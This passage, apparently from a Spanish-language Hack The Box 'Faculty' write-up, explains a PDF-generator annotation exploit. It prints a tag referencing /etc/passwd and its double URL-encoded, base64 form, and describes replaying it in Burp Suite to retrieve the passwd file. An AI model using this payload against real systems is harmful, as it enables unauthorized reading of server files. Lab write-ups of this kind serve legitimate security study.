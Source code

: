 Al analizar el exploit veo que lo que hace es generar una línea con el siguiente contenido y lo urlencodea y lo encodea de nuevo en base64.

```bash
# Genera un archivo con este contenido.
--------------------------------------
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />

# Lo urlencodea x2 y lo encodea de nuevo en base64
--------------------------------------------------
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL2V0Yy9wYXNzd2QlMjUyMiUyNTIwY29udGVudD0lMjUyMi9ldGMvcGFzc3dkJTI1MjIlMjUyMGljb249JTI1MjJHcmFwaCUyNTIyJTI1MjB0aXRsZT0lMjUyMkF0dGFjaGVkJTI1MjBGaWxlOiUyNTIwL2V0Yy9wYXNzd2QlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

Por lo tanto si metemos esto dentro del Burpsuite en la petición capturada y la enviamos se nos debería generar un archivo pdf con el archivo passwd.

![](/assets/images/HTB/Faculty-HackTheBox/burp4.webp)

Al hacer click en Forward se nos abrirá una ventana en el navegador con el archivo pdf, y haremos click en el icono del clip y veremos el archivo passwd que descargaremos y leeremos.

![](/assets/images/HTB/Faculty-HackTheBox/passwd1.webp)
